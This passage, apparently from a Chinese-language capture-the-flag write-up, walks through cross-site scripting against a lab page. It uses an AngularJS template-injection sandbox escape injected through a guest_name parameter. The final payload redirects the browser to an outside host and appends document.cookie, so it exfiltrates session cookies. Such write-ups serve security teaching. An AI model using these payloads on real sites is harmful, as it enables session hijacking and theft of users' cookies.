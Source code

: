 ```
<div ng-app>
{{constructor.constructor('alert(document.domain)')()}}
</div>
```

3. 构造弹窗 payload：`http://120.78.185.175:5000/hachp1/wuziqi/index.php??guest_name=%3Cscript%20src=http://lib.sinaapp.com/js/angular.js/angular-1.0.6/angular.min.js%3E%3C/script%3E%3Cdiv%20ng-app%3E{{constructor.constructor("alert(document.domain)")()}}%3C/div%3E`
   成功弹窗：
   ![](img/xss11.png)

#### 获取 flag

1. 都已经弹窗了，接下来就好办了，类似第一题，直接上 payload：

```
http://120.78.185.175:5000/hachp1/wuziqi/index.php?guest_name=%3Cscript%20src=http://lib.sinaapp.com/js/angular.js/angular-1.0.6/angular.min.js%3E%3C/script%3E%3Cdiv%20ng-app%3E{{constructor.constructor("document.location='http://120.78.185.175/xss/myxss?c='%2Bdocument.cookie;")()}}%3C/div%3E
```

2. 拿到 flag：